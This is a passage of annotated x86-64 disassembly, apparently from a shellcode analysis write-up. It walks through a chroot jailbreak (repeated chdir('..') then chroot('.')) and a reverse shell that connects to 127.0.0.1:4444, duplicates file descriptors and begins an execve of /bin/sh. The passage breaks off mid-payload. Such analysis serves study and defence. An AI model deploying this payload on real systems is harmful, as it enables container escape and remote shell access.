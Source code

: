 ```nasm
   0x0000555555558085 <+37>:	xor    rdx,rdx
   0x0000555555558088 <+40>:	mov    dl,0xa1		; RDX set to 0xa1
   0x000055555555808a <+42>:	mov    rax,rdx		; chroot syscall value 
							; RDI already point to "qwMDBorW"
   0x000055555555808d <+45>:	syscall 		; exec chroot

; chdir("..") 69 times (is it an easter egg ? or I'm perverted ?)
; change working directory
   0x000055555555808f <+47>:	mov    si,0x2e2e	; ..
   0x0000555555558093 <+51>:	push   rsi		; 
   0x0000555555558094 <+52>:	mov    rdi,rsp		; RDI point to ".."
   0x0000555555558097 <+55>:	push   0x45		;
   0x0000555555558099 <+57>:	pop    rbx		; RBX set to 69 (will be used as counter)
   0x000055555555809a <+58>:	push   0x50
   0x000055555555809c <+60>:	pop    rax		; chdir syscall value
   0x000055555555809d <+61>:	syscall 		; exec chdir
   0x000055555555809f <+63>:	dec    bl
   0x00005555555580a1 <+65>:	jne    0x55555555809a <payload+58> ; if RBX not 0 re-call chdir("..")

: chroot(".")
; change process root directory to /
   0x00005555555580a3 <+67>:	push   0x2e
   0x00005555555580a5 <+69>:	mov    rdi,rsp		; RDI point to "."
   0x00005555555580a8 <+72>:	mov    rax,rdx		; RAX set chroot syscall value
   0x00005555555580ab <+75>:	syscall 		; exec chroot

; socket(AF_INET, SOCK_STREAM, 0)
   0x00005555555580ad <+77>:	push   0x29		
   0x00005555555580af <+79>:	pop    rax		; socket syscall value
   0x00005555555580b0 <+80>:	cdq    			; RDX set to 0
   0x00005555555580b1 <+81>:	push   0x2		
   0x00005555555580b3 <+83>:	pop    rdi		; AF_INET
   0x00005555555580b4 <+84>:	push   0x1
   0x00005555555580b6 <+86>:	pop    rsi		; SOCK_STREAM
   0x00005555555580b7 <+87>:	syscall 		; exec socket

; connect(sockfd, {AF_INET, 4444, 127.0.0.1}, 16)
   0x00005555555580b9 <+89>:	xchg   rdi,rax		; RDI set to sockfd
   0x00005555555580bb <+91>:	movabs rcx,0x100007f5c110002	; 127.0.0.1, 4444, AF_INET
   0x00005555555580c5 <+101>:	push   rcx	
   0x00005555555580c6 <+102>:	mov    rsi,rsp		; RSI point to {AF_INET, 4444, 127.0.0.1}
   0x00005555555580c9 <+105>:	push   0x10
   0x00005555555580cb <+107>:	pop    rdx		; addrlen (16)
   0x00005555555580cc <+108>:	push   0x2a
   0x00005555555580ce <+110>:	pop    rax		; connect syscall value
   0x00005555555580cf <+111>:	syscall 		; exec connect

; dup2(sockfd, stderr to stdin) loop
   0x00005555555580d1 <+113>:	push   0x3
   0x00005555555580d3 <+115>:	pop    rsi
   0x00005555555580d4 <+116>:	dec    rsi		; start counter from 2 to 0
   0x00005555555580d7 <+119>:	push   0x21	
   0x00005555555580d9 <+121>:	pop    rax		; dup2 syscall value
   0x00005555555580da <+122>:	syscall 		; exec dup2
   0x00005555555580dc <+124>:	jne    0x5555555580d4 <payload+116>  ; loop until RSI = 0

; execve("/bin/sh",["/bin/sh"],NULL)
   0x00005555555580de <+126>:	push   0x3b
   0x00005555555580e0 <+128>:	pop    rax			; execve syscall value
   0x00005555555580e1 <+129>:	cdq    				; RDX set to 0
   0x00005555555580e2 <+130>:	movabs rbx,0x68732f6e69622f	; \x00hs/nib/
   0x00005555555580ec <+140>:	push   rbx			; 
```
